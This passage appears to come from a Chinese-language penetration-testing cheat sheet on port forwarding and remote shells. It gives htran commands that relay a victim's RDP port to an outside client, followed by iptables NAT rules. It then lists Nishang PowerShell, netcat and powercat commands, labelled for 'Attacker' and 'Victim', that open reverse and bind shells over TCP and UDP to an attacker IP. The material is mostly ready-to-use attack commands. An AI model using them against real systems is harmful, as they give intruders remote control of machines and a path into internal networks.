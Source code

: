 	客户端      htran.exe -p -listen 1234 8888
	服务端      htran.exe -p -slave 客户端IP 1234 127.0.0.1 3389
	客户端      RDP 127.0.0.1:8888
	
iptables端口映射

	bash
	vi /etc/sysctl.conf #将net.ipv4.ip_forward=0更改为net.ipv4.ip_forward=1 开启转发功能
	sysctl -p   #使数据转发功能生效
	iptables -t nat -A PREROUTING --dst 192.168.46.129 -p tcp --dport 81 -j DNAT --to-destination 172.24.20.25:80 #把本地192.168.46.129的81端口转为目标172,24.20.25的80端口
	iptables -t nat -A POSTROUTING --dst 172.24.20.25 -p tcp --dport 80  -j SNAT --to-source 192.168.46.129   #172.24.20.25:80返回时 将ip修改为192.168.46.129



## 0x12 端口转发之PowerShell
https://github.com/samratashok/nishang

    Victim IP : 192.168.52.1
    Attacker IP : 192.168.52.129

1.Reverse shell[tcp]

    Attacker:
        nc -lvp 4444
    Victim:
        PS F:\Shells> . .\Invoke-PowerShellTcp.ps1
        PS F:\Shells> Invoke-PowerShellTcp -Reverse -IPAddress 192.168.52.129 -Port 4444


2.Bind shell[tcp]

    Victim:
        PS F:\Shells> . .\Invoke-PowerShellTcp.ps1
        PS F:\Shells> Invoke-PowerShellTcp -Bind -Port 8888
    Attacker:
        PS F:\Shells> . .\powercat.ps1
        PS F:\Shells> powercat -c 192.168.52.1 -v -p 8888


3.Reverse shell[UDP]支持ipv6

    Attacker:
        nc -lvup 53
    Victim:
        PS F:\Shells> . .\Invoke-PowerShellUdp.ps1
        PS F:\Shells> Invoke-PowerShellUdp -Reverse -IPAddress 192.168.52.129 -Port 53


4.Bind shell[UDP]

    Victim:
        PS F:\Shells> . .\Invoke-PowerShellUdp.ps1
        PS F:\Shells> Invoke-PowerShellUdp -Bind -Port 7777
    Attacker:
        nc -vtu 192.168.52.1 7777

